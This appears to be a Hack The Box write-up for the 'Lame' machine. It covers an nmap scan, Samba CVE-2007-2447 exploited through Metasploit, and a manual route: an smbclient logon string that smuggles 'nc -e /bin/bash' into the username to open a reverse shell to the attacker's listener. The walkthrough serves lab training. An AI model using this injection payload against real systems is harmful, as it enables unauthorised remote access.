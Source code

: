 ```yaml
---
title: 'HTB Lame'
date: 2022-08-30 00:00:00
featured_image: '/images/htb/lame.png'
excerpt: Lame
---
```


![](/images/htb/lame.png)

> nmap -sC -sV 10.10.10.3

> -sC - default set of scripts
> -sV - enables version detection

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-19 09:39 CEST
Nmap scan report for 10.10.10.3
Host is up (0.068s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-05-19T03:40:29-04:00
|_clock-skew: mean: 2h00m41s, deviation: 2h49m43s, median: 40s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.92 seconds
```

Nmap reveals vsftpd 2.3.4, OpenSSH and Samba. Vsftpd 2.3.4 does have a built-in backdoor, however it is not exploitable in this instance.

Searching shows vuln: _CVE-2007-2447_

### Metasploit
> use usermap_script
> set rhosts 10.10.10.3
> exploit

And... boom. We got shell.

In my case needed to change LHOST also - remember to check if it's the same as connected to HackTheBox.

### Without Metasploit

Start nc listener (other terminal):

```shell
nc -lvnp 4444
```

> -l - listen mode
> -v - verbose
> -n -  numeric-only IP, no DNS
> -p - port

Second terminal:

> smbclient //10.10.10.3/tmp 
> enter

```shell
logon "./=`nohup nc -e /bin/bash <your ip> 4444`"
```

> logon: - it is used to login into smb
> nohup: - run a command immune to hangups, with output to a non-tty

We got it.

There are two flags:
```shell
cat /root/root.txt
cat /home/makis/user.txt
```
